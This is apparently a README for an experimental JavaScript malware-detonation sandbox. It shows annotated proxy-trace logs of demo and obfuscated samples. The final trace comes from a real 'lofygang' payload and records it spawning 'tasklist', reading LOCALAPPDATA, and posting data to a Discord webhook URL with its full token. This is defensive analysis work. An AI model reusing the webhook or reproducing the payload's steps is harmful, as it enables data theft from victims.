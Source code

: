 # lavalab

Not a malware research lab.

> **Warning** this is an experiment. It doesn't utilize the full protection of SES. It's not claiming to be applicable or useful for actual malware analysis.

> **Warning** no ESM `import` support

## Usage

Requires docker present and working.  
Runs a no-network container in which malware can be gradually detonated.

- put your sample in ./samples/
- run `lab.sh`
- inside the container, run your sample: `lavalab samples/a.js`
- when in doubt, kill the container

lavalab instruments running code with proxies starting at `global` and prompts synchronously to ask what to return.
```
Return values from proxy:
 p: proxy-prompt
 n: noop function
 l: console.log
 f: function=>proxy-prompt
 0: undefined
```

## Examples

These are outputs from running the samples present in the repo.  
obfuscated-a.js was created using highest level of https://obfuscator.io/

```
## Running "samples/a.js" ##
Access real global.console? [a=always/y/N]y
this is a demo sample
Access real global.URL? [a=always/y/N]y
Access real global.require? [a=always/y/N]
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'fs' } )
Get global.require=>{}.readFileSync as [p/n/l/f/0]n
Run real EVAL? [y/N]
returning console.log instead of eval
example_payload
```

Note this is not the first pass. On a first pass one should not allow real `Function`
```
## Running "samples/obfuscated-a.js" ##
Access real global.parseInt? [a=always/y/N]a
Access real global.undefined? [a=always/y/N]a
Access real global.RegExp? [a=always/y/N]a
Access real global.Boolean? [a=always/y/N]a
Access real global.String? [a=always/y/N]a
Access real global.decodeURIComponent? [a=always/y/N]a
Access real global.Function? [a=always/y/N]y
Access real global.window? [a=always/y/N]
Get global.window as [p/n/l/f/0]p
Get global.window.console as [p/n/l/f/0]p
Get global.window.console.log as [p/n/l/f/0]l
Get global.window.console.warn as [p/n/l/f/0]l
Get global.window.console.info as [p/n/l/f/0]l
Get global.window.console.error as [p/n/l/f/0]l
Get global.window.console.exception as [p/n/l/f/0]l
Get global.window.console.table as [p/n/l/f/0]l
Get global.window.console.trace as [p/n/l/f/0]l
Access real global.console? [a=always/y/N]y
this is a demo sample
Access real global.URL? [a=always/y/N]y
Access real global.Function? [a=always/y/N]
Get global.Function as [p/n/l/f/0]l
return (function() {}.constructor("return this")( ));
Access real global.window? [a=always/y/N]
Get global.window as [p/n/l/f/0]p
Get global.window.setInterval as [p/n/l/f/0]l
{} 4000
Access real global.require? [a=always/y/N]
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'fs' } )
Get global.require=>{}.readFileSync as [p/n/l/f/0]n
Run real EVAL? [y/N]
returning console.log instead of eval
example_payload
```

Annotated with explanations
```
## Running "samples/obfuscated-a.js" ##
Access real global.parseInt? [a=always/y/N]a
Access real global.undefined? [a=always/y/N]a
Access real global.RegExp? [a=always/y/N]a
Access real global.Boolean? [a=always/y/N]a
Access real global.String? [a=always/y/N]a
Access real global.decodeURIComponent? [a=always/y/N]a
Access real global.Function? [a=always/y/N]y
Access real global.window? [a=always/y/N]
^^^ tools used to undo obfuscation
Get global.window as [p/n/l/f/0]p
Get global.window.console as [p/n/l/f/0]p
Get global.window.console.log as [p/n/l/f/0]l
Get global.window.console.warn as [p/n/l/f/0]l
Get global.window.console.info as [p/n/l/f/0]l
Get global.window.console.error as [p/n/l/f/0]l
Get global.window.console.exception as [p/n/l/f/0]l
Get global.window.console.table as [p/n/l/f/0]l
Get global.window.console.trace as [p/n/l/f/0]l
^^^ looks like polyfilling
Access real global.console? [a=always/y/N]y
^^^ actual console usage from the obfuscated script
this is a demo sample
^^^ output of that concole.log
Access real global.URL? [a=always/y/N]y
^^^ actual URL reference for the obfuscated script
Access real global.Function? [a=always/y/N]
Get global.Function as [p/n/l/f/0]l
return (function() {}.constructor("return this")( ));
^^^ attempt at getting the real global
Access real global.window? [a=always/y/N]
^^^ fallback to window
Get global.window as [p/n/l/f/0]p
Get global.window.setInterval as [p/n/l/f/0]l
^^^ getting setInterval, we replace it with a log
{} 4000
^^^ looks like a deobfuscation prevention
vvv all of the obfuscated script now running
Access real global.require? [a=always/y/N]
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'fs' } )
Get global.require=>{}.readFileSync as [p/n/l/f/0]n
Run real EVAL? [y/N]
returning console.log instead of eval
example_payload
```

Actual lofygang payload
```
## Running "lofy1.js" ##
Run real EVAL? [y/N]y
Access real global.RegExp? [a=always/y/N]a
Run real EVAL? [y/N]y
Run real EVAL? [y/N]y
Run real EVAL? [y/N]y
Access real global.parseInt? [a=always/y/N]a
Access real global.require? [a=always/y/N]N
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'fs' } )
Access real global.require? [a=always/y/N]N
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'https' } )
Access real global.require? [a=always/y/N]N
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'glob' } )
Access real global.require? [a=always/y/N]N
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'child_process' } )
Get global.require=>{}.exec as [p/n/l/f/0]f
Access real global.require? [a=always/y/N]N
Get global.require as [p/n/l/f/0]f
=>global.require( [Arguments] { '0': 'axios' } )
Access real global.process? [a=always/y/N]N
Get global.process as [p/n/l/f/0]p
Get global.process.env as [p/n/l/f/0]p
Get global.process.env.LOCALAPPDATA as [p/n/l/f/0]0
Get global.require=>{}.readdirSync as [p/n/l/f/0]f
=>global.require=>{}.readdirSync( [Arguments] { '0': undefined } )
Get global.require=>{}.readdirSync=>{}.forEach as [p/n/l/f/0]f
=>global.require=>{}.readdirSync=>{}.forEach( [Arguments] { '0': {} } )
=>global.require=>{}.exec( [Arguments] { '0': 'tasklist', '1': {} } )
Get global.require=>{}.post as [p/n/l/f/0]f
=>global.require=>{}.post( [Arguments] {
  '0': 'https://discord.com/api/webhooks/1007006820629483640/PcVef3zPDULoGoHQBQu1WK_pLYOMtOdk6ynz0wqSFJf6yv0Ro5iZpMLiZ3Pe4aVKxk-j',
  '1': { embeds: [ [Object] ] }
} )

```